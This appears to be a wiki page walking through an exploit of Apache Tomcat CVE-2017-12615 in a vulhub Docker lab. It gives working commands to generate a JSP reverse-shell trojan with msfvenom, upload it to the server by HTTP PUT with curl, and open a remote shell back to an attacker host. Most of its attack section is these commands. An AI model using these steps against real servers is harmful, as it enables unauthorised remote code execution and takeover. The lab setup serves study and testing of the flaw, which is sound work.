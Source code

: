 ```yaml
---
Title: Apache Tomcat Remote Code Execution Vulnerability CVE-2017-12615
---
```


# Apache Tomcat Remote Code Execution Vulnerability CVE-2017-12615

## Vulnerability Description

On September 19, 2017, Apache Tomcat officially confirmed and fixed two high-risk vulnerabilities, including the remote code execution vulnerability (CVE-2017-12615). 

## Affect Version

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Apache Tomcat 7.0.0 - 7.0.81</span>

## Environment construction

```shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/tomcat/CVE-2017-12615
docker-compose up -d
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/cbe1eedd-5a2a-4147-b44c-d2789769015f.png)

## Vulnerability reappears

The main reason for the vulnerability is the error in the `conf/web.xml` file configuration. Readonly enabled false, which can use the `PUT/DELETE` request method to operate the file.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/291a35c3-469d-48b6-a65d-92270dfe6024.png)

`msf` generates a `jsp` Trojan

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=9999 -f raw > shell.jsp
```

Upload Trojans using PUT method

```shell
curl -v -X PUT --data-binary @shell.jsp "https://xxx.xxx.xxx.xxx:8080/shell.jsp/"
```


</a-alert>

<br/>

Successfully uploaded Trojan file

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/a963d85c-3514-490e-905f-1b6193c75adf.png)

Access the file to bounce a `shell`
